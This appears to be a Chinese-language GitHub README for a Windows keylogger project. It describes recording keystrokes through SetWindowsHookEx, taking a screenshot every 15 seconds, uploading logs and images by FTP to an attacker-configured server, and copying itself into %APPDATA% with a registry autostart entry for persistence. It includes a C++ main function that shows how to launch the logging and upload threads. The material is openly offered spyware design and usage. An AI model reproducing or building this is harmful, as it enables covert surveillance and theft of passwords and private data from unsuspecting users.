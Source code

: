 #Keylogger（键盘记录、截屏、ftp传输）

##基本原理
  1、通过WinAPI：SetWindowsHookEx进行键盘信息记录，记录结果形成一个txt文件，保存在%APPDATA%/IAMLOG/路径下，。
  2、定时截图（默认间隔15秒），图片保存在%APPDATA%/IAMLOG/路径下，。
  3、一个单独的线程定时通过ftp发送txt文件和图片文件，上传后的图片名称带有时间戳。
  4、程序第一次运行时会把自己复制到%APPDATA%/IAMLOG/路径下，并把相应路径写入注册表启动项，以后开机自动运行。

##FTP服务器：FileZilla
  使用方法比较简单，配置好服务器后将IP、端口号、用户名、密码更新到BCKeylogger.cpp中。

##使用方法
  主要文件：BCKeylogger.h和BCKeylogger.cpp
  在主文件中引用头文件，并通过子线程调用Keylogger的主要功能，参考main.cpp主函数中的调用方法，如下所示：
  ```
  #include <thread>
  #include "BCKeylogger.h"

  using namespace std;

  int WINAPI wWinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PWSTR pCmdLine, int nCmdShow)
  {
	  userpath();
	  AutoCopy();
	  AutoStart();

	  std::thread t1(StartKeyLogging);
	  std::thread t2(sendfileProcess);

	  t1.join();
	  t2.join();
  }
  ```

##主要参考了以下两个Github的代码
  [ajayrandhawa/Blackcat-Keylogger](https://github.com/ajayrandhawa/Blackcat-Keylogger)
  [vim2meta/keylogger](https://github.com/vim2meta/keylogger)